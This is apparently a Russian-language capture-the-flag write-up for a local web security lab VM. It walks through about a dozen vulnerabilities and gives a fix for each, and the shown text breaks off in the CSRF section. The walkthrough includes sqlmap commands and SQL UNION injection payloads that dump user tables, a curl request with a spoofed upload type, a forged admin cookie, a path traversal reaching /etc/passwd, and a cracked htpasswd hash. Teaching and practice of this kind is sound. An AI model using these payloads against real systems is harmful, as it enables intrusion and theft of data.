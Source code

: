 | [README](README.md) | [subject](sublect_ru.md) | [How to start a web server](howTo.md) | defense |
|-|-|-|-|

#Защита проекта

<details><summary>Запускаем ВМ, получаем на экране IP адрес запущенного сервера.</summary>

<img width="1200" alt="Screen Shot 2022-11-11 at 11 16 21" src="https://user-images.githubusercontent.com/84193980/201297810-9f5e8917-2f55-4ee0-96ad-2d347395af7f.png">

</details>

<details><summary>На Маке в браузере вводим этот адрес:</summary>

<img width="1276" alt="Screen Shot 2022-11-11 at 11 23 36" src="https://user-images.githubusercontent.com/84193980/201297804-96514ae7-6e1f-46de-b987-7e2d2c776cee.png">

</details>

# Обнаруженные уязвимости: #

<details><summary>01. Brute force данных для входа</summary>

| Найдено на странице | http://192.168.56.3/?page=signin |
|-|-|

[The main source of information](https://owasp.org)

<details><summary>Что такое `Brute force` и как обнаружено</summary>
  
![44-BruteForce](https://user-images.githubusercontent.com/84193980/201331815-afabace6-0df6-4de6-83cf-549b7577436b.jpeg)

`Brute force` использует метод проб и ошибок, чтобы угадать данные для входа, ключи шифрования или найти скрытую веб-страницу. Хакеры перебирают все возможные комбинации, надеясь угадать правильно.

Это старый метод атаки, но он по-прежнему эффективен и популярен среди хакеров. Потому что в зависимости от длины и сложности пароля его взлом может занять от нескольких секунд до многих лет.

## Как обнаружено ##

На вышеуказанной странице мы можем ввести логин и пароль. 
  
 <img width="1169" alt="Screen Shot 2022-11-11 at 14 36 53" src="https://user-images.githubusercontent.com/84193980/201332789-dce4b467-d603-40db-897b-82bceeffb68f.png">
 
Когда мы вводим неправильный пароль, мы видим, что веб-страница перенаправляет на следующую страницу, на которой есть очень специфическое изображение images/WrongAnswer.gif:

<img width="1904" alt="Screen Shot 2022-11-11 at 14 35 05" src="https://user-images.githubusercontent.com/84193980/201332820-9375ec69-2e0b-4a86-b11c-2f21fc528212.png">
 
Мы можем использовать это для `Brute force` процесса входа в систему.

Для этого из [OWASP SecLists](https://github.com/danielmiessler/SecLists) используем наиболее часто используемые [имена пользователей](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) и [паролей](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt)

Используя простой скрипт, мы можем попробовать каждую комбинацию наиболее часто используемых паролей и имен пользователей, и если мы не видим изображение «WrongAnswer.gif» на экране, то это означает, что мы успешно вошли в систему!

В папке Ressources выполнить следующую команду, по запросу ввести 192.168.56.3 (можно просто Enter):
```
python3 bf_login.py
```

</details>

Брутфорсом получены следующие пароли:

<img width="581" alt="Screen Shot 2022-11-13 at 07 06 55" src="https://user-images.githubusercontent.com/84193980/201506871-5f672d26-6b82-41d6-813d-01639bbe05ff.png">

Заходим по адресу: http://192.168.56.3/?page=signin, вводим логин и пароль. Наслаждаемся!

### Как исправить:
- Используйте более надежное имя пользователя и пароль
- Brute force detection tools
- Captcha
- Анализ и блокировка поступающих запросов:
	- Извлечение необходимых для принятия решений данных (IP, URL, ARGS, BODY);
	- Фильтрация полученных данных с исключением нецелевых URI для уменьшения количества ложных срабатываний;
	- Выбор запросов с одного адреса на конкретный URI по мере их близости или запросов со всех адресов на конкретный URI (для выявления распределенных атак методом перебора) в рамках определенного временного окна;
	- Блокирование источника(ов) атаки при превышении пороговых значений.

----

</details>

<details><summary>02. Атака с внедрением SQL на странице поиска пользователя</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=member |
|-|-|

[SQL injection](https://www.owasp.org/index.php/SQL_Injection)

<details><summary>Что такое `Атака с внедрением SQL` и как обнаружено</summary>

## Обзор ##
Атака с внедрением SQL состоит во вставке или «внедрении» SQL-запроса через входные данные от клиента к приложению. Успешный эксплойт SQL-инъекции может считывать конфиденциальные данные из базы данных, изменять данные базы данных (вставлять/обновлять/удалять), выполнять административные операции в базе данных (например, отключение СУБД), восстанавливать содержимое заданного файла, присутствующего в файле СУБД. систему и в некоторых случаях отдавать команды операционной системе. Атаки с внедрением SQL — это тип атаки с внедрением, при котором команды SQL вводятся во входные данные плоскости данных, чтобы повлиять на выполнение предопределенных команд SQL.

## Моделирование угроз ##
- Атаки с внедрением SQL позволяют злоумышленникам подделывать личность, вмешиваться в существующие данные, вызывать проблемы отказа, такие как аннулирование транзакций или изменение баланса, обеспечивать полное раскрытие всех данных в системе, уничтожать данные или делать их недоступными иным образом, а также становиться администраторами сервер базы данных.
- Внедрение SQL очень распространено в приложениях PHP и ASP из-за преобладания старых функциональных интерфейсов. Из-за характера доступных программных интерфейсов приложения J2EE и ASP.NET с меньшей вероятностью могут легко использовать SQL-инъекции.
- Серьезность атак с внедрением SQL-кода ограничивается навыками и воображением злоумышленника и, в меньшей степени, контрмерами глубокой защиты, такими как подключения с низким уровнем привилегий к серверу базы данных и т. д. Как правило, SQL-инъекция считается серьезной угрозой.

## Описание ##
Атака с внедрением SQL происходит, когда:
- Непреднамеренные данные попадают в программу из ненадежного источника.
- Данные используются для динамического построения SQL-запроса.

## Основные последствия: ##
- Конфиденциальность: поскольку базы данных SQL обычно содержат конфиденциальные данные, потеря конфиденциальности является частой проблемой с уязвимостями SQL Injection.
- Аутентификация: если для проверки имен пользователей и паролей используются плохие SQL-команды, может оказаться возможным подключиться к системе от имени другого пользователя, ранее не знающего пароль.
- Авторизация: если информация об авторизации хранится в базе данных SQL, можно изменить эту информацию путем успешного использования уязвимости SQL Injection.
- Целостность: так же, как может быть возможно прочитать конфиденциальную информацию, также возможно внести изменения или даже удалить эту информацию с помощью атаки SQL Injection.

## Как обнаружено ##
- Метод 1. С помощью внешней программы sqlmap
	- Склонить
	```bash
	git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
	```
	- Выведем на экран список таблиц, для этого перейдём в папку программы и запустим:
	```bash
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
	```
	
	<img width="581" alt="Screen Shot 2022-11-13 at 08 32 28" src="https://user-images.githubusercontent.com/84193980/201508174-f1d52c4f-63be-47d0-aa58-e2881de979d0.png">
	
	- Выведем дамп таблицы users:
	```
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --dump -T users
	```
	<img width="2010" alt="Screen Shot 2022-11-12 at 13 30 10" src="https://user-images.githubusercontent.com/84193980/201477756-53d0b759-bbe1-4e0e-9c3f-ffdefdb32913.png">

		Decrypt this password -> then lower all the char. Sh256 on it and it's good ! 
		key: 5ff9d0165b4f92b14994e5c685cdce28 
		oter keys:
		2b3366bcfd44f540e630d4dc2b9b06d9
		60e9032c586fb422e2c16dee6286cf10 (oktoberfest)
		e083b24a01c483437bcf4a9eea7c1b4d 

- Метод 2. Через поле ввода страницы сайта.

	- Если оставить поле ввода пустым и нажать Enter, то мы получим:
	```
	You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
	```

	Значит, используется MariaDB

	Ввести в поле ввода:

	```
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```

	Посмотрим на поля таблицы users: user_id, first_name, last_name, town, ountry, planet, Commentaire, countersign

	Что бы посмотреть все данные пользователей:
	```
	1 OR 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
	```
	<img width="922" alt="Screen Shot 2022-11-12 at 16 59 20" src="https://user-images.githubusercontent.com/84193980/201477846-0f12c5e8-c33f-41dc-a94e-1755141cab9d.png">

	или

	В папке Ressources (default address 192.168.56.3, можно просто Enter):
	```
	chmod 777 get_page-user.sh
	./get_page-user.sh
	```
	<img width="1560" alt="Screen Shot 2022-11-12 at 16 24 55" src="https://user-images.githubusercontent.com/84193980/201477797-c91bba96-6d18-4aab-81f4-6d212cff7c24.png">

- Нас интересует пользователь, в Surname которого указано "Decrypt this password"

</details>

Полученный ключ: 5ff9d0165b4f92b14994e5c685cdce28

Нам надо сделать: Decrypt this password -> then lower all the char. Sh256 on it and it's good ! 

Вспомним данные, полученные ранее:

<img width="2010" alt="Screen Shot 2022-11-12 at 13 30 10" src="https://user-images.githubusercontent.com/84193980/201477756-53d0b759-bbe1-4e0e-9c3f-ffdefdb32913.png">

MD5 hash oktoberfest это 60e9032c586fb422e2c16dee6286cf10

По аналогии [Конвертируем MD5 hash нашего ключа](https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28): FortyTwo

lower all the char: fortytwo

[sh256](https://crypt-online.ru/crypts/sha256/): 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

### Как исправить:
- предварительно обработать параметры SQL-запроса, в том числе привести к целочисленному типу, экранировать значения, подготовленные значения (https://htmlacademy.ru/tutorial/php/sql-injections)

----

</details>

<details><summary>03. Атака с внедрением SQL на странице поиска картинки</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=searchimg |
|-|-|

<details><summary>Что такое `Атака с внедрением SQL на странице поиска картинки` и как обнаружено</summary>

## Обзор ##
Атака с внедрением SQL состоит во вставке или «внедрении» SQL-запроса через входные данные от клиента к приложению. Успешный эксплойт SQL-инъекции может считывать конфиденциальные данные из базы данных, изменять данные базы данных (вставлять/обновлять/удалять), выполнять административные операции в базе данных (например, отключение СУБД), восстанавливать содержимое заданного файла, присутствующего в файле СУБД. систему и в некоторых случаях отдавать команды операционной системе. Атаки с внедрением SQL — это тип атаки с внедрением, при котором команды SQL вводятся во входные данные плоскости данных, чтобы повлиять на выполнение предопределенных команд SQL.

## Моделирование угроз ##
- Атаки с внедрением SQL позволяют злоумышленникам подделывать личность, вмешиваться в существующие данные, вызывать проблемы отказа, такие как аннулирование транзакций или изменение баланса, обеспечивать полное раскрытие всех данных в системе, уничтожать данные или делать их недоступными иным образом, а также становиться администраторами сервер базы данных.
- Внедрение SQL очень распространено в приложениях PHP и ASP из-за преобладания старых функциональных интерфейсов. Из-за характера доступных программных интерфейсов приложения J2EE и ASP.NET с меньшей вероятностью могут легко использовать SQL-инъекции.
- Серьезность атак с внедрением SQL-кода ограничивается навыками и воображением злоумышленника и, в меньшей степени, контрмерами глубокой защиты, такими как подключения с низким уровнем привилегий к серверу базы данных и т. д. Как правило, SQL-инъекция считается серьезной угрозой.

## Описание ##
Атака с внедрением SQL происходит, когда:
- Непреднамеренные данные попадают в программу из ненадежного источника.
- Данные используются для динамического построения SQL-запроса.

## Основные последствия: ##
- Конфиденциальность: поскольку базы данных SQL обычно содержат конфиденциальные данные, потеря конфиденциальности является частой проблемой с уязвимостями SQL Injection.
- Аутентификация: если для проверки имен пользователей и паролей используются плохие SQL-команды, может оказаться возможным подключиться к системе от имени другого пользователя, ранее не знающего пароль.
- Авторизация: если информация об авторизации хранится в базе данных SQL, можно изменить эту информацию путем успешного использования уязвимости SQL Injection.
- Целостность: так же, как может быть возможно прочитать конфиденциальную информацию, также возможно внести изменения или даже удалить эту информацию с помощью атаки SQL Injection.

## Как обнаружено ##
- С помощью внешней программы sqlmap
	- Склонить
	```bash
	git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
	```
	- Выведем на экран список таблиц, для этого перейдём в папку программы и запустим:
	```bash
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
	```
	
	<img width="581" alt="Screen Shot 2022-11-13 at 08 32 28" src="https://user-images.githubusercontent.com/84193980/201508174-f1d52c4f-63be-47d0-aa58-e2881de979d0.png">

	Нас интересует таблица list_images

- Через поле ввода страницы сайта.

	Ввести в поле ввода:
	```
	1 OR 1=1 UNION SELECT NULL, NULL--
	```

	Значит, имеется 2 колонки

	Ввести в поле ввода:

	```
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```

	Посмотрим на поля таблицы list_images: id, url, title, comment

	Что бы посмотреть все данные всех картинок:
	```
	1 OR 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
	```

	<img width="1080" alt="Screen Shot 2022-11-13 at 08 45 05" src="https://user-images.githubusercontent.com/84193980/201508206-c0769387-7568-41ea-8410-47080f3b4df4.png">

	В данных последней картинки находим:
		Title: borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

	или

	В папке Ressources (default address 192.168.56.3, можно просто Enter):
	```
	./get_page-pic.sh
	```
	
	<img width="1011" alt="Screen Shot 2022-11-13 at 08 53 05" src="https://user-images.githubusercontent.com/84193980/201508219-a9de4b5f-89bd-49b0-bb29-21a4d41a4d54.png">

- Нас интересует картинка, у которой "Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

</details>

ключ: 1928e8083cf461a51303633093573c46

По аналогии с предыдущей инъекцией:

[Конвертируем MD5 hash нашего ключа](https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46): albatroz

lower all the char: albatroz

[sh256](https://crypt-online.ru/crypts/sha256/): f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


### Как исправить:
- предварительно обработать параметры SQL-запроса, в том числе привести к целочисленному типу, экранировать значения, подготовленные значения (https://htmlacademy.ru/tutorial/php/sql-injections)

----

</details>

<details><summary>04. Непроверенные переадресации и пересылки</summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `Непроверенные переадресации и пересылки` и как обнаружено</summary>

https://habr.com/ru/company/otus/blog/511428/

Одной из наиболее распространенных и тем не менее игнорируемых веб-разработчиками уязвимостей является Open Redirect (также известная как «Непроверенные переадресации и пересылки»). Веб-сайт считается уязвимым для Open Redirect, если значения параметра (часть URL-адреса после «?») в HTTP GET-запросе позволяет перенаправить пользователя на новый сайт без проверки целевого сайта. В зависимости от архитектуры уязвимого сайта, перенаправление может произойти после определённых действий, таких как вход в систему, а иногда это может произойти мгновенно при загрузке страницы.

Пример уязвимой ссылки выглядит примерно так: www.example.com/login.html?RelayState=http%3A%2F%2Fexample.com%2Fnext

В этом примере параметр «RelayState» указывает куда нужно перенаправить пользователя после успешного входа в систему (в нашем примере это example.com/next). Если сайт не проверяет значение параметра «RelayState» на предмет легитимности и безопасности, то злоумышленник может воспользоваться этим параметром, чтобы перенаправить жертву на фейковую страницу, созданную самим злоумышленником: www.example.com/login.html?RelayState=http%3A%2F%2FEvilWebsite.com

Перенаправление на разные сайты социальных сетей в нижней части веб-сайта не подтверждено. Открытые перенаправления не являются критическими непосредственно для самого сайта и не позволяют злоумышленнику украсть данные, принадлежащие владельцу сайта, но представляют большую опасность для пользователя сайта. Жертва может не заметить, что в середине длинного URL-адреса есть параметры, которые манипулируют и изменяют конечную точку.

## Как обнаружено ##

В Chrome в нижней части экрана (footer, где значок Facebook) нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить адрес (добавить что-либо)

Теперь, нажав на значок Facebook получаем страницу с ключом

</details>

<img width="963" alt="Screen Shot 2022-11-13 at 10 07 09" src="https://user-images.githubusercontent.com/84193980/201510524-675934ca-98fa-4e5c-81ab-9fec8749a526.png">

### Как исправить:
- Лучший способ избежать уязвимости Open Redirect – это избегать перенаправления по параметру, зависящему от пользователя или приходящего через GET-запрос. Если перенаправление неизбежно, с ним можно совладать, проверив конечный сайт и очистив его репутацию с помощью белого списка подтвержденных URL-адресов.

----

</details>

<details><summary>05. Незащищенная электронная почта для восстановления</summary>

| Найдено на странице | http://192.168.56.3/?page=recover |
|-|-|

<details><summary>Что такое `Незащищенная электронная почта для восстановления` и как обнаружено</summary>

Если злоумышленник изменит адрес электронной почты в этом поле, тогда забытый пароль (или процедура восстановления) может быть отправлен на его собственный адрес электронной почты. Это может позволить ему восстанавливать пароли от пользователей веб-сайта.

## Как обнаружено ##

В Chrome на вышеуказанной странице в районе кнопки Submit нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить адрес электронной почты (добавить что-либо)
	
<img width="1397" alt="Screen Shot 2022-11-13 at 13 45 48" src="https://user-images.githubusercontent.com/84193980/201518128-aa9869e2-617a-44de-8896-3c7aadda86db.png">

Теперь, нажав на кнопку Submit получаем страницу с флагом
	
<img width="906" alt="Screen Shot 2022-11-13 at 13 43 03" src="https://user-images.githubusercontent.com/84193980/201518137-6534e19e-e753-4935-87a2-4b3d270593a6.png">

</details>

THE FLAG IS : 1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

### Как исправить:
- Вместо того, чтобы отправлять запрос на адрес электронной почты администратора, мы можем просто использовать поле ввода с адресом электронной почты пользователя.

----

</details>

<details><summary>06. Незащищенная страница опроса</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=survey |
|-|-|

<details><summary>Что такое `Незащищенная страница опроса` и как обнаружено</summary>

У пользователя становится возможным "накрутка голосования"

## Как обнаружено ##

На вышеуказанной странице в районе первой ячейки Grade нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить значение, отличное от 1 (добавить что-либо)
	
<img width="1692" alt="Screen Shot 2022-11-13 at 14 12 34" src="https://user-images.githubusercontent.com/84193980/201519332-230127a4-5836-425c-bd77-5bf7a72ad2e1.png">

Теперь при выборе в таблице изменённого значения получим флаг:
	
<img width="891" alt="Screen Shot 2022-11-13 at 14 11 47" src="https://user-images.githubusercontent.com/84193980/201519329-6761f8be-b798-45d5-a535-170a7a7faef4.png">

</details>

THE FLAG IS 03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA

### Как исправить:
- Стратегии проверки данных (принятие заведомо хороших, отклонение заведомо плохих, санация)

----

</details>

<details><summary>07. Неограниченная загрузка файлов</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=upload |
|-|-|

<details><summary>Что такое `Неограниченная загрузка файлов` и как обнаружено</summary>

[Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

Загруженные файлы представляют значительный риск для приложений. Первым шагом во многих атаках является передача некоторого кода в атакуемую систему. Тогда атаке нужно только найти способ выполнить код. Использование загрузки файла помогает злоумышленнику выполнить первый шаг.

Последствия неограниченной загрузки файлов могут быть разными, включая полный захват системы, перегрузку файловой системы или базы данных, перенаправление атак на серверные системы, атаки на стороне клиента или простое искажение. Это зависит от того, что приложение делает с загруженным файлом и особенно от того, где он хранится.

## Как обнаружено ##

Если попытаться загрузить файл "php", то это не сработает. Когда мы загружаем файл php, наш браузер отправляет в заголовках HTTP «content-type», который является «application/octet-stream» для файла php и «image/jpeg» для файла jpeg.

Вышеуказанная страница заточена ТОЛЬКО для приёма изображений. НО! На этом сайте бэкенд не проверяет тип файла, поэтому при загрузке любого типа файла сайт примет его. В следующем скрипте мы делаем так, чтобы наш файл выглядел так, как будто мы отправляем изображение.

Перейти в теминале папку Ressources и там выполнить:
```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@1.test;type=image/jpeg' http://192.168.56.3/index.php\?page\=upload\# | grep "flag"
```
<img width="1240" alt="Screen Shot 2022-11-13 at 12 57 05" src="https://user-images.githubusercontent.com/84193980/201516949-7816f45b-e148-4925-93a5-e3e34cf495a3.png">

</details>

The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

### Как исправить:
- Вы должны перепроверить тип файла и никогда не доверять пользователю.

----

</details>

<details><summary>08. Небезопасные файлы cookie администратора</summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `Небезопасные файлы cookie администратора` и как обнаружено</summary>

Перехват сеанса (перехват файлов cookie) — это использование действительного компьютерного сеанса (сеансового ключа) для получения несанкционированного доступа к информации или услугам в компьютерной системе. В частности, он используется для обозначения кражи волшебного файла cookie, используемого для аутентификации пользователя на удаленном сервере.

### Что такое файлы cookie?

Файлы cookie — это файлы, которые веб-сайты записывают локально на ваш компьютер.
У них есть несколько применений: отслеживание клиентов, безопасная идентификация пользователя/администратора или запись пользовательских данных.
Эти данные передаются в конце заголовков HTTP в следующем виде:
Cookie: Cookie_name_1=cookie_value1; Cookie_name_2=cookie_value2 и т. д.

Как правило, многие сайты хранят файл cookie SESSID, который является переменной идентификации вашего сайта.
Файл cookie SESSID позволяет защитить аутентификацию
(сервер ведет локальную запись используемых сеансов SESSID и связанных с ними данных, таких как входы в систему).

## Как обнаружено ##

- Откройте браузер Chrome на компьютере.
- В правом верхнем углу экрана нажмите на значок с тремя точками Настройки (Settings).
- Выберите Конфиденциальность и безопасность (Privacy and security) -> Файлы cookie и другие данные сайтов (Cookies and other site data).
- Выберите See all cookies and site data
- Выберите свой сайт 192.168.56.3
	
<img width="693" alt="Screen Shot 2022-11-13 at 14 55 17" src="https://user-images.githubusercontent.com/84193980/201521836-743c6c84-ef7d-4c5f-8633-616879b4fcc1.png">

В указанном файле cookie есть поле 
	Content 68934a3e9455fa72420237eb05902327

[Конвертируем MD5 нашего поля](https://md5.gromweb.com/?md5=68934a3e9455fa72420237eb05902327): false

Попробуем получить MD5 hash of "true" и заменить значение этого поля в cookie

[MD5 hash "true"](https://md5.gromweb.com/?string=true): b326b5062b2f0e69046810717534cb09

Перейти в терминале в папку Ressources и выполнить

```
curl -s --cookie 'I_am_admin=b326b5062b2f0e69046810717534cb09' 'http://192.168.56.3' -o flag.html
open flag.html
```

или

В папке Ressources (default address 192.168.56.3, можно просто Enter):
```
chmod 777 get_flag.sh
./get_flag.sh
```
	
<img width="481" alt="Screen Shot 2022-11-13 at 15 16 09" src="https://user-images.githubusercontent.com/84193980/201521860-2291d9fb-3de0-4c93-94cf-1c24371a3291.png">

</details>

Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

### Как исправить:
- Никогда не доверяйте содержимому файлов cookie для конфиденциальных операций, не используйте алгоритм MD5 для шифрования данных и используйте более безопасный алгоритм, такой как bcrypt.

----

</details>

<details><summary>09. Обход каталога или обход пути</summary>

| Найдено на странице | http://192.168.56.3/?page=../../../../../../../etc/passwd |
|-|-|

<details><summary>Что такое `Обход каталога` и как обнаружено</summary>

Все веб-сайты построены одинаково, и все веб-сайты, работающие в UNIX, содержат папку: /etc/passwd

`/etc/passwd` — это текстовый файл, содержащий атрибуты каждого пользователя или учетной записи на компьютере под управлением Linux или другой Unix-подобной операционной системы.

Разрешения для `/etc/passwd` установлены по умолчанию, так что он может быть прочитан любым пользователем в системе.

## Как обнаружено ##

Мы попытаемся найти эту папку, поднявшись по древовидной структуре нашего веб-сайта, добавив «../» к запрошенному URL-адресу.

Добавив `/?page=../` к нашему URL-адресу и благодаря индексам, отображаемым на сайте при каждой попытке, нам удалось вернуться к файлу `/etc/passwd`.

В браузере:

<img width="906" alt="Screen Shot 2022-11-14 at 06 47 04" src="https://user-images.githubusercontent.com/84193980/201572544-32e5db20-ccd3-40e4-b5f0-a8370b7c81e3.png">

</details>

The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 

### Как исправить:
- Чтобы защититься от этого типа недостатков, необходимо правильно настроить веб-сервер, чтобы пользователь не мог просматривать страницы, к которым у него не должно быть доступа.

----

</details>

<details><summary>10. Незащищенный htpasswd</summary>

| Найдено на странице | http://192.168.56.3/robots.txt |
|-|-|

<details><summary>Что такое `Незащищенный htpasswd` и как обнаружено</summary>

Файл `htpasswd` хранит имена пользователей и пароли для аутентификации пользователей HTTP.

## Как обнаружено ##

В браузере перейти

	http://192.168.56.3/robots.txt
	
<img width="439" alt="Screen Shot 2022-11-14 at 07 25 59" src="https://user-images.githubusercontent.com/84193980/201576736-e9c4ce3c-a872-46c9-8712-71c83d095223.png">

Мы видим, что существует папка /whatever. Перейдём в неё:

	http://192.168.56.3/whatever
	
<img width="478" alt="Screen Shot 2022-11-14 at 07 27 24" src="https://user-images.githubusercontent.com/84193980/201576777-c5d45dc4-c222-4132-b971-7afaeecec448.png">

В этой папке есть доступ к файлу htpasswd. Скачаем этот файл. Внутри него только одна строчка:

	root:437394baff5aa33daa618be47b75cb49

Уже опробованным нами методом произведём:

[Reverse MD5 hash of 437394baff5aa33daa618be47b75cb49](https://md5.gromweb.com/?md5=437394baff5aa33daa618be47b75cb49) : qwerty123@

В браузере перейдём:

	http://192.168.56.3/admin/

и введём 

```
Username: root
Password: qwerty123@
```
	
<img width="880" alt="Screen Shot 2022-11-14 at 07 33 55" src="https://user-images.githubusercontent.com/84193980/201576817-f151acef-205c-4f1f-a9b1-7ce626e108fe.png">

<img width="889" alt="Screen Shot 2022-11-14 at 07 35 14" src="https://user-images.githubusercontent.com/84193980/201576864-7ce13744-fb81-44f7-aa50-3f0e7ed32ab4.png">

</details>

The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

### Как исправить:
- Права доступа к файлу htpasswd должны предоставляться только администраторам, а не тем, кто просто добавляет «/что угодно» к домашнему URL-адресу.

----

</details>

<details><summary>11. Утечка информации</summary>

| Найдено на странице | http://192.168.56.3/robots.txt |
|-|-|

- [Review Webserver Metafiles for Information Leakage](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/03-Review_Webserver_Metafiles_for_Information_Leakage.html)

[How to Address Security Risks with Robots.txt Files](https://www.searchenginejournal.com/robots-txt-security-risks/289719)

<details><summary>Что такое `Утечка информации` и как обнаружено</summary>

Файл robots.txt может содержать полезную информацию для злоумышленника, такую как:
- пути для проверки
- используемые технологии

## Как обнаружено ##

В браузере перейти

	http://192.168.56.3/robots.txt
	
<img width="439" alt="Screen Shot 2022-11-14 at 07 25 59" src="https://user-images.githubusercontent.com/84193980/201576736-e9c4ce3c-a872-46c9-8712-71c83d095223.png">

Мы видим, что существует папка /.hidden. Перейдём в неё:

	http://192.168.56.3/.hidden

<img width="503" alt="Screen Shot 2022-11-14 at 10 30 02" src="https://user-images.githubusercontent.com/84193980/201631837-35732727-3a0f-4d31-9a43-0160a861129b.png">

В этой папке есть файл README, в котором только одна строчка:

	Tu veux de l'aide ? Moi aussi !  // Вы хотите помочь ? Я тоже !

и несколько вложенных директорий, в каждой из которых есть по несколько вложенных директорий и по одному файлу README. И в тех вложенных директориях то же самое. Предположим, что в одном из файлов README лежит наш флаг. 

Просмотр файлов README по многим каталогам занял бы не менее дня, поэтому было совершенно ясно, что для этой задачи необходимо использовать поисковый робот. Надо использовать скрипт, который просканирует все вложенные директории и найдёт этот флаг.

Перейти в терминале папку Ressourcess. Выполнить:
```
chmod 777 get_flag.sh
./get_flag.sh
``` 
	
<img width="1252" alt="Screen Shot 2022-11-14 at 12 50 35" src="https://user-images.githubusercontent.com/84193980/201631880-14703e67-800d-421a-b90f-a9d510e13447.png">

</details>

Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466

### Как исправить:
- Поисковые системы, такие как Google, используют ботов или поисковые роботы и применяют поисковый алгоритм для сбора данных, поэтому в ответ на поисковые запросы предоставляются релевантные ссылки. Это помогает в создании списка веб-страниц или результатов поисковой системы и улучшении SEO. Простое правило состоит в том, чтобы сделать некоторые из ваших веб-страниц/каталогов недоступными для обнаружения, если вы не хотите, чтобы они были обнаружены публикой.
- Если в вашем файле robots.txt есть чувствительные области, вам необходимо серьезно пересмотреть архитектуру вашего сайта. Никакие конфиденциальные каталоги никогда не должны быть доступны для публики. На самом деле все, что выставлено на всеобщее обозрение, должно быть защищено, независимо от того, видно это или нет.

----

</details>

<details><summary>12. Подделка межсайтовых запросов</summary>

| Найдено на странице | [http://192.168.56.3/](http://192.168.56.3/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f) |
|-|-|

[Click for more information (OWASP)](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet)

<details><summary>Что такое `Подделка межсайтовых запросов` и как обнаружено</summary>

`Подделка межсайтовых запросов` (`CSRF`)  — это тип атаки, которая происходит, когда вредоносный веб-сайт, электронная почта, блог, мгновенное сообщение или программа заставляет веб-браузер пользователя выполнять нежелательное действие на доверенном сайте, когда пользователь аутентифицирован. Атака `CSRF` работает, потому что запросы браузера автоматически включают все файлы cookie, включая файлы cookie сеанса. Поэтому, если пользователь аутентифицирован на сайте, сайт не может отличить законные авторизованные запросы от поддельных аутентифицированных запросов. Эта атака предотвращается при использовании надлежащей авторизации, которая подразумевает, что требуется механизм запроса-ответа, который проверяет личность и полномочия запрашивающего.

Влияние успешной `CSRF`-атаки ограничено возможностями уязвимого приложения и привилегиями пользователя. Например, эта атака может привести к переводу средств, изменению пароля или совершению покупки с использованием учетных данных пользователя. По сути, атаки `CSRF` используются злоумышленником, чтобы заставить целевую систему выполнять функцию через браузер жертвы без ведома жертвы, по крайней мере, до тех пор, пока не будет совершена несанкционированная транзакция.

## Как обнаружено ##

Внизу главной страницы сайта есть ссылка `BornToSec`. Нажмём на неё:
	
<img width="599" alt="Screen Shot 2022-11-14 at 08 04 32" src="https://user-images.githubusercontent.com/84193980/201585904-5a703ae5-8144-4e8a-8b95-74df9d2b826f.png">

Мы попали на страницу http://192.168.56.3/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f . Проинспектируем код:

<img width="1489" alt="Screen Shot 2022-11-14 at 08 06 57" src="https://user-images.githubusercontent.com/84193980/201585936-0f182d50-a004-48f0-8e42-53afa0e37258.png">

В коде есть закомментированные блоки кода. Часть закомментированного фрагмента даёт подсказку:

	You must come from : "https://www.nsa.gov/".

